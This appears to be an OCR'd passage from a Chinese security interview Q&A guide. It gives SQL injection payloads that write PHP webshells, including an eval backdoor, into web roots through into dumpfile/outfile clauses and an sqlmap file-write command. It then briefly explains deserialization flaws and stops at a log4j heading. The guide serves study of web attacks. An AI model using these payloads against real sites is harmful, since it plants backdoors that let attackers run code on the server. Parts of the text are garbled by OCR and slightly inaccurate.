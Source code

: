 dumpfile函数写入

?id=1' union select 1,"<?php @eval($_POST['shell']);?>",3 into dumpfile
'C:\\\phpstudy\\\WWW\\\sqli\\\shell.php'#

lines terminated by 写入

?id=1 into outfile 'C:/wamp64/www/shell.php' lines terminated by '<?php
phpinfo()?>';

//lines terminated by 可以理解为 以每行终止的位置添加 xx 内容。

lines starting by 写入

?id=1 into outfile 'C:/wamp64/www/shell.php' lines starting by '<?php
phpinfo()?>';//利用 lines starting by 语句拼接webshell的内容。lines starting by 可以理解为
以每行开始的位置添加 xx 内容。

fields terminated by 写入

?id=1 into outfile 'C:/wamp64/www/work/shell.php' fields terminated by '<?php
phpinfo() ?>';//利用 fields terminated by 语句拼接webshell的内容。fields terminated by
可以理解为 以每个字段的位置添加 xx 内容。

columns terminated by 写入

?id=1 into outfile 'C:/wamp64/www/shell.php' COLUMNS terminated by '<?php
phpinfo() ?>';//利用 fields terminated by 语句拼接webshell的内容。fields terminated by
可以理解为 以每个字段的位置添加 xx 内容。

sqlmap写入

写：(要写的文件，必须在kali本机里有)写入到 /tmp 目录下 sqlmap -u
"http://127.0.0.1/index.php?page=user-
info.php&username;=a%27f%27v&password;=afv&user-info-php-submit-
button;=View+Account+Details" -p 'username' --file-write="shell.php" --file-
dest="/tmp/shell.php"

**十五. 了解过反序列化漏洞吗？**

答：

**原理：**

序列化是指程序将对象转化为字节序列从而便于存储运输的一种方式，反序列化则与其相反，即将字节序列转化为对象供程序使用。程序在进行反序列化时会调用一些函数，比如常见的PHP反序列化函数unserialize()以及一些常见的魔术方法，比如构造函数_construct()，析构函数_destruct()，_wakeup()，_toString()，_sleep()等等。如果这些函数在传递参数时没有进行严格的过滤措施，那么攻击者就可以构造恶意代码并将其序列化后传入函数中，从而导致反序列化漏洞。

**Java反序列化**

Java反序列化就是将java对象转化为字节序列的过程。反序列化的过程就是

1，创建一个对象输出流

2，通过对象输出流的ReadObject()方法来读取对象

**十六. 常见的框架漏洞？**

答：

**log4j远程代码执行漏洞**

